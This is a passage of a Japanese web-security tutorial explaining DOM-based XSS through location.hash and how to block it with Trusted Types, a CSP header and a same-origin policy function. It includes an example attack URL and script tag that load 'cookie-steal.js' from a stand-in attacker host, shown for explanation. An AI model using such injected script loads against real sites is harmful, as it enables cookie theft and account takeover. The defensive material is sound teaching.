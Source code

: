 上記コードにおいて、`https://site.example#https://attacker.example/cookie-steal.js` のような URL へ誘導された場合、以下のような HTML が生成され、攻撃者が用意した `cookie-steal.js` というスクリプトが実行されてしまう。

```html
<script src="https://attacker.example/cookie-steal.js"></script>
```

- DOM-based XSS は文字列をそのまま HTML へ反映してしまうことが原因で発生する
- 今回だと、`location.hash.slice(1)` で取得した文字列をそのまま使用していることが原因

Trusted Types という機能を使用することで、 DOM のプロパティなどが**任意の文字列を受け取ることを禁止**し、特定の関数を通過した**検証済みの文字列のみを許容**させることができる。

### Trusted Types の有効化

CSP ヘッダに `require-trusted-types-for 'script'` を指定する。

```http
Content-Security-Policy: require-trusted-types-for 'script';
```

すると、以下のような `<script>` 要素の生成も Trusted Types が有効なページでは、`location.hash.slice(1)` で取得した文字列をそのまま `src` 属性に代入することができず、エラーになる。

```html
<script>
  const s = document.createElement("script");
  // 次の行でエラーになる
  s.src = location.hash.slice(1);
  document.body.appendChild(s);
</script>
```

### ポリシー関数の定義

- Trusted Types は「**ポリシー**」と呼ばれる関数によって検査された安全な型（文字列）のみを HTML へ挿入できるように制限する
- Trusted Types は文字列を **`TrustedHTML`**、 **`TrustedScript`**、**`TrustedScriptURL`** の 3 つの型（文字列）に変換する
- 先ほど例に挙げた Trusted Types が有効なページでは、`<script>` 要素の `src` 属性には `TrustedScriptURL` 型の値しか代入できない
- よって、ポリシー関数を定義し、文字列を安全な型に変換する必要がある
- ポリシー関数の作成には、`window.trustedTypes.createPolicy()` を使用する

```html
<script>
  // Trusted Typesをサポートしているブラウザのみ一連の処理を行う
  if (window.trustedTypes && trustedTypes.createPolicy) {
    // `createPolicy()`の引数に`(ポリシー名, ポリシー関数を持つオブジェクト)`を指定
    const myPolicy = trustedTypes.createPolicy("my-policy", {
      createScriptURL: (unsafeString) => {
        const url = new URL(unsafeString, location.origin);

        //　現在のページと`<script>`要素へ指定するURLのオリジンが一致するかチェック
        if (location.origin !== url.origin) {
          // 同一オリジンでない場合はエラー
          throw new Error("同一オリジン以外のscriptは読み込めません。");
        }
        // returnされたURLオブジェクトは安全とみなされる
        return url;
      },
    });

    const s = document.createElement("script");
    // ポリシー関数を呼び出し、TrustedScriptURL型の結果を代入する
    s.src = myPolicy.createScriptURL(location.hash.slice(1));
    document.body.appendChild(s);
  }
</script>
```
